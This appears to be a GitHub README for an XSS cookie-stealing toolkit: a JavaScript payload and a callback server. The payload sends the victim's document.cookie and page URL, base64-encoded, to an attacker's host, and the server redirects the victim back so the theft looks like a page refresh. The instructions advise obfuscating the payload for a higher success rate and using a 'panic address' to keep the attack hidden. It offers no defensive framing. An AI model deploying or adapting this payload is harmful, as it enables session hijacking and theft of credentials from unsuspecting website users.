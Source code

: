 ## Description

This repo contains an example of a CORS callback server and an XSS payload that, once executed, will change the current window location of the victim to your callback server, which responds with a **301 Moved Permanently** redirection back to where the victim came from (Referer), although this time with a token in the URL anchor, preventing your XSS payload from reactivating.

If for whatever reason the victim did not reveal its origin, the victim will be redirected to your panic address of choice, in an attempt to keep the attack hidden.

When the attack is successful, the victim experienced what seemed like a page refresh at most.

## Usage

First of all make sure that your callback server is listening.

Then throw the following code in your XSS payload. Be sure to change the address to that of your callback server, and change the token at the very least. The more you obfuscate this code, the higher your success rate will be. 

Refine your payload as required, or it may get triggered unexpectedly.

```javascript
const token = "w3lRZ87e";
if (location.hash != token) self.location = "https://mycallbackserver.net/callback.php" + 
                	"?referer=" + encodeURIComponent( btoa(self.location.href) ) + 
                	"&data=" + encodeURIComponent( btoa(document.cookie) ) + 
                	"&token=" + encodeURIComponent( btoa(token) );
```

<sup>If you choose not to include a referer in the URL parameters, the callback server defaults to the **`Referer`** header of the request.</sup>
